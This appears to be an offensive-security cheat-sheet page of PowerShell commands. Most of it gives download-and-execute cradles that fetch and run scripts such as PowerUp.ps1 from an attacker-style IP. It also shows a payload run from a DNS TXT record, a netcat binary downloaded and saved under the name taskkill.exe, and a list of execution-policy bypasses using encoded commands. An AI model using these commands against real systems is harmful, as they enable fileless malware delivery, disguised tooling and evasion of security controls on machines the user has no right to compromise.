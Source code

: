 ```yaml
---
title: Powershell guide
position: 2
description: Useful commands to use on Powershell prompts
badge: Windows
---
```



## Super basic

```powershell
Get-Help *  #List everything loaded
Get-Help {{ topic process }}  # List everything containing "{{ topic process }}"
Get-Help Get-Item -Full {{ topic process }}  # Get full help about a topic
Get-Help Get-Item -Examples {{ topic process }}  # List examples
Import-Module {{ modulepath modulepath }}
Get-Command -Module {{ modulename modulename }}
```

### Download & execute

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('{{ script-url http://10.10.14.9:8000/ipw.ps1 }}')"
echo IEX(New-Object Net.WebClient).DownloadString('{{ script-url http://10.10.14.9:8000/PowerUp.ps1 }}') | powershell -noprofile - #From cmd download and execute
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('{{ script-url http://10.10.14.9:8000/ipw.ps1 }}')|iex"
iex (iwr '{{ script-url 10.10.14.9:8000/ipw.ps1 }}') #From PSv3

$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','{{ script-url http://10.10.14.9:8000/ipw.ps1 }}',$false);$h.send();iex $h.responseText
$wr = [System.NET.WebRequest]::Create("{{ script-url http://10.10.14.9:8000/ipw.ps1 }}") $r = $wr.GetResponse() IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd(

# https://twitter.com/Alh4zr3d/status/1566489367232651264
# host a text record with your payload at one of your (unburned) domains and do this: 
powershell . (nslookup -q=txt {{ domain-record domain.txt.record.with.script }})[-1]
```

### Download

<smart-tabs variable="download-method-ps" :tabs="{'iwr': 'Invoke-WebRequest', 'wget': 'Wget', 'webclient': 'Net.WebClient', 'bitstransfer':'BitsTransfer'}">
<template v-slot:iwr>

```powershell
Invoke-WebRequest "{{ file-url http://10.10.14.2:80/taskkill.exe }}" -OutFile "{{ output taskkill.exe }}"
```

</template>
<template v-slot:wget>

```powershell
wget "{{ file-url http://10.10.14.2/nc.bat.exe }}" -OutFile "{{ output C:\ProgramData\unifivideo\taskkill.exe }}"
```

</template>
<template v-slot:webclient>

```powershell
(New-Object Net.WebClient).DownloadFile("{{ file-url http://10.10.14.2:80/taskkill.exe }}","{{ output C:\Windows\Temp\taskkill.exe }}")
```

</template>
<template v-slot:bitstransfer>

```powershell
Import-Module BitsTransfer
Start-BitsTransfer -Source "{{ file-url http://10.10.14.2:80/taskkill.exe }}" -Destination {{ output taskkill.exe }}{{ optional-flags  -Asynchronous }}
```

</template>
</smart-tabs>

## Execution policy

By default it is set to **restricted.** Main ways to bypass this policy:

```powershell
# 1º Just copy and paste inside the interactive PS console
# 2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
# 3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
# 4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
# 5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
# 6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
# 7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
# 8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
# 9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```

More can be found [here](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)